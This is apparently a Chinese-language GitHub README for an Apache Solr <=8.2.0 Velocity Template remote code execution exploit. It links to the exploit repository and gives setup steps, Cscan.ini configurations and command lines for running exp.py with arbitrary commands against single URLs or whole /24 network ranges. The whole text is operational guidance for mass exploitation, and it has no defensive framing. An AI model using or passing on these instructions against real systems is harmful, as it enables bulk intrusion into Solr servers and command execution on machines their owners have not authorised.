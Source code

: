 # Apache Solr <=8.2.0 Velocity Template 0day Exploit

Exp: https://github.com/k8gege/SolrExp
### 环境
下载Solr 8.2.0添加core,默认配置即可。7.x版本自带core
### 配置
0x001 批量URL配置Cscan.ini<br>
[Cscan]<br>
exe=F:\Python279\python.exe<br>
arg=exp.py $ip$ whoami<br>
0x002 批量C段配置Cscan.ini<br>
[Cscan]<br>
exe=F:\Python279\python.exe<br>
arg=exp.py http://$ip$:8983 whoami<br>
### 利用
单个: python exp.py url cmd<br> 或 Cscan url<br>
批量C段: Cscan 192.168.1.8/24<br>
批量URL: Cscan (同目录放url.txt)

<img src=https://github.com/k8gege/SolrExp/blob/master/Solr0day.gif>
